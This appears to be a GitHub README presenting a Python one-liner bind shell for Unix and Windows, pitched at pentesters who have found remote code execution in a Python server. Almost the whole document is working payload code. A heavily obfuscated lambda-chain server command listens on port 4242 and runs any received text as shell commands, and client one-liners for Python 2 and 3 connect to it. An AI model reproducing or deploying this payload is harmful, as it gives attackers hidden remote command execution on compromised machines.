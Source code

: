 # Python one-liner bind shell
A python bind shell single line code for both Unix and Windows, you can use this on whatever python version you like (2 or 3). This special useful for pentester when they found an RCE in a python server but they can't create a new file. Also adminstrator will able to create a bind shell to server with just a single code very simple.

#Payloads:
##The host command (to create a bind shell):
```python -c "(lambda __g, __y, __contextlib: [[[[(s.bind(('0.0.0.0', 4242)), (s.listen(5), [[(lambda __after: [__after() for __g['f'] in [(('\nShell\\%s> ' % u))]][0] if (os.name == 'nt') else [__after() for __g['f'] in [(('%s@shell:$ ' % u))]][0])(lambda: (c.send(f), (lambda __after: __y(lambda __this: lambda: (lambda __break: [(lambda __after: __break() if (d == 'exit') else __after())(lambda: (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: (c.send(('%s%s' % (b, f))), __this())[1])][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and ([True for __out[0] in [([lambda after: after() for __g['b'] in [('')]][0])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [([(lambda __after: __after()) for __g['b'] in [(subprocess.check_output(d, stderr=subprocess.STDOUT, shell=True))]][0])]][0]})())))([None])) for __g['d'] in [(c.recv(1024).decode().replace('\n', ''))]][0])(__after) if 1 else __after())())(lambda: None))[1]) for __g['u'] in [(subprocess.check_output('whoami', stderr=subprocess.STDOUT, shell=True).replace('\n', ''))]][0] for (__g['c'], __g['a']) in [(s.accept())]][0])[1])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0])(globals(), (lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), __import__('contextlib', level=0))"```

##The client command (to connect to the shell):
###Python 2:
```python -c "(lambda __g, __y: [[[(s.connect((t, 4242)), (lambda __after: __y(lambda __this: lambda: (lambda __break: [[(s.send(b.encode()), (lambda __after: __break() if (b == 'exit') else __after())(lambda: __this()))[1] for __g['b'] in [(raw_input(d))]][0] for __g['d'] in [(s.recv(2048).decode())]][0])(__after) if 1 else __after())())(lambda: None))[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['t'] in [(raw_input('Host: '))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0])(globals(), (lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))))"```

###Python 3:
```python3 -c "(lambda __g, __y: [[[(s.connect((t, 4242)), (lambda __after: __y(lambda __this: lambda: (lambda __break: [[(s.send(b.encode()), (lambda __after: __break() if (b == 'exit') else __after())(lambda: __this()))[1] for __g['b'] in [(input(d))]][0] for __g['d'] in [(s.recv(2048).decode())]][0])(__after) if 1 else __after())())(lambda: None))[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['t'] in [(input('Host: '))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0])(globals(), (lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))))"```

